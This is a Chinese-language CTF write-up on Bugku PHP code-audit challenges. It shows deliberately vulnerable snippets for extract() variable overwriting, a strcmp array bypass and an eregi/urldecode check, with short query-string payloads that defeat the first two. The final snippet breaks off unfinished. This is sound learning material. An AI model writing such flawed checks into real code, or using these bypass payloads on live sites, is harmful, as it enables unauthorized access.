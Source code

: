 title: bugku的代码审计和社工
author: Qianye
abbrlink: ecb3eea4
tags:
  - ctf
categories:
  - ctf
date: 2018-03-08 19:40:00
---
都做过了，在做一遍，刷理一下思绪。

[php函数漏洞详细总结](http://blog.csdn.net/qq_31481187/article/details/60968595)
# extract变量覆盖
```bash
<?php
$flag='xxx';
extract($_GET);
if(isset($shiyan))
{
$content=trim(file_get_contents($flag));
if($shiyan==$content)
{
echo'flag{xxx}';
}
else
{
echo'Oh.no';
}
}
?>
```
[变量覆盖漏洞](http://www.freebuf.com/column/150731.html)</br>
构造
```bash
?shiyan&content=
```

# strcmp比较字符串
```
<?php$flag = "flag{xxxxx}";
if (isset($_GET['a'])) 
	{ if (strcmp($_GET['a'], $flag) == 0) //如果 str1 小于 str2 返回 < 0； 如果 str1大于 str2返回 > 0；如果两者相等，返回 0。 //比较两个字符串（区分大小写）
    die('Flag: '.$flag); 
   else print 'No';}?>
```
[strcmp漏洞php5.3之前](http://blog.csdn.net/cherrie007/article/details/77473817)</br>
构造
```bash
?a[]
```
# urldecode二次编码绕过
```bash
<?php
if(eregi("hackerDJ",$_GET[id])) {
echo("

not allowed!

");
exit();
```